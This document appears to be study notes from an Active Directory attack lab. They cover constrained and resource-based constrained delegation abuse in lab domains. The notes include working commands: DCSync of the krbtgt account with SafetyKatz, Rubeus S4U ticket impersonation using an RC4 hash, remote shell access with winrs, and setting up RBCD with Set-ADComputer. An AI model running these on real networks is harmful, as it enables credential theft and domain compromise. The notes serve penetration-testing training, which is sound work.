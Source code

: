 After injection, we can run DCSync:
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
OR
```powershell
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt

winrs -r:us-mssql cmd.exe
```

Learning Objective 16

Enumerate users in the domain for whom Constrained Delegation is enabled:

- For such a user, request a TGT from the DC and obtain a TGS for the service to which delegation is configured.
- Pass the ticket and access the service as DA.

Enumerate computer accounts in the domain for which Constrained Delegation is enabled:

- For such a user, request a TGT from the DC.
- Use the TGS for executing the DCSync attack
	


## Resource-based Constrained Delegation

> This moves delegation authority to the resource/service administrator.

- Instead of SPNs on msDs-AllowedToDelegatTo on the front-end service like web service, access in this case is controlled by security descriptor of **msDS-AllowedToActOnBehalfOfOtherIdentity** (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service like SQL Server service.
- That is the resource/service administrator can configure this delegation whereas for other types, **SeEnableDelegation privileges are required** which are, by default, available only to Domain Admins.


**To abuse RBCD in the most effective form, we just need two privileges**:

1. Write permissions over the target service or object to configure **msDS-AllowedToActOnBehalfOfOtherIdentity**.
2. Control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain **-ms-DS-MachineAccountQuota is 10** for all domain users)

We already have admin privileges on student VMs that are domain joined machines.

Enumeration would show that the user *ciadmin* has Write permissions over the dcorp-mgmt machine!
```powershell
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

Using the ActiveDirectory module, configure RBCD on dcorp-mgmt for student machines:
```powershell
$comps = 'dcorp-student1$','dcorp-student2$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```
